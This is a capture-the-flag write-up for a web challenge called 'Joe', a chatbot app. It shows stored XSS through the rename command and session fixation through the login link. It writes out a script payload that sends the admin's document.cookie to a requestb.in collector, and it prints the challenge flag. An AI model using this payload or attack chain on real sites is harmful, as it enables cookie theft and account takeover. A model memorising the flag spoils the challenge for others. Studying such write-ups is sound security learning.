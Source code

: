 # Joe ~ 90
Problem:
```
Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have some small talk with a machine. We have put extra emphasis on security when developing Joe, but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us make Joe even more secure. If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag.

Challenge running at https://joe.web.ctfcompetition.com/
```
![default](kapi-files/1.PNG)

After few look around we found that if we click on hyperlink then commands will prompt in our input.

* what is your name
* let me rename you
* do you know any puns
* what is the answer to the ultimate question
* report bug

**let me rename you** this command will let us change Joe's name to what ever we want and it's possible to inject XSS into that name which we will change to. We use [https://requestb.in](https://requestb.in) to setup temporary server to catch requests which could be generated from anywhere.

We change Joe's name into the following XSS and reload the page.
```javascript
<script>alert(1);</script>
``` 
![XSS](kapi-files/4.PNG)
As we expected the site is vulnerable to XSS. Now it could be roughly plan an attack to steal admin cookie by sending XSS-link to admin but how it could be. 

After reviewing login function we found that the login function has weakness called **session fixation** which is the session will be same value whenever we login or not. So if we pass this link to admin and let he participate to the link we might be able to catch admin's cookie.

The following is example of my login.
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

Now we prepare the exploitation by:
* Change Joe's name to JavaScript which will send cookies to our requestb.
* Report bug by sending our login URL with our token
* Admin should login to our session and his cookies should be sent to our reqestb.

## Setup XSS
By changing Joe's name to
```javascript
<script>document.write('<img src="https://requestb.in/our_resquestb_url?' + document.cookie);</script>
```
## Report bug
by sending 
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

We found a problem when we try to report the bug with very long URL.
![errorreportlongurl](kapi-files/8.PNG)

So we shortend it using goo.gl

Submit the bug again.
![submitbug](kapi-files/10.PNG)

## Reap our flag
![flag](kapi-files/9.PNG)

The flag was:
* CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; 

